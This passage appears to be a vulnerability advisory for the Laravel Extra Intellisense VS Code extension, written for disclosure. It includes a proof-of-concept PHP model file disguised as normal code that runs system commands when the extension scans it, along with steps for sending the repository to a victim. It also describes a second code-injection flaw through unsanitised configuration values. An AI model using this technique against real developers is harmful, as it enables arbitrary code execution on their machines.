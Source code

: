 ### Security Test Case
1. Create a malicious Laravel project
2. Add a malicious model file at `app/Models/Exploit.php`:
```php
<?php
namespace App\Models;

// This code will be executed automatically when Laravel Extra Intellisense scans models
$payload = "<?php system('id > /tmp/rce_success'); ?>";
file_put_contents('/tmp/exploit.php', $payload);
system('php /tmp/exploit.php');

class Exploit extends \Illuminate\Database\Eloquent\Model
{
    // Normal-looking model code to avoid suspicion
    protected $table = 'exploits';
    protected $fillable = ['name'];
}
?>
```
3. Commit the project to a repository
4. Send the repository URL to the victim
5. When the victim opens the project in VSCode with Laravel Extra Intellisense extension, the extension will automatically scan and load model files
6. Verify that the file `/tmp/rce_success` contains the output of the `id` command, proving successful code execution

## 3. Code Injection via PHP String Concatenation

### Description
The extension builds PHP code by concatenating strings without proper sanitization or escaping of user-controlled values from configuration settings. This allows an attacker to inject malicious PHP code that will be executed when the extension runs its various provider methods.

### Impact
An attacker can execute arbitrary PHP code on the victim's machine, allowing access to the file system, network, or other system resources available to the PHP process.

### Vulnerability Rank
High

### Currently Implemented Mitigations
None. The code directly concatenates configuration values into PHP code strings.

### Missing Mitigations
- Proper validation and sanitization of configuration values
- Use of parameterized approaches instead of string concatenation
- Isolation of user-controlled values from executable code
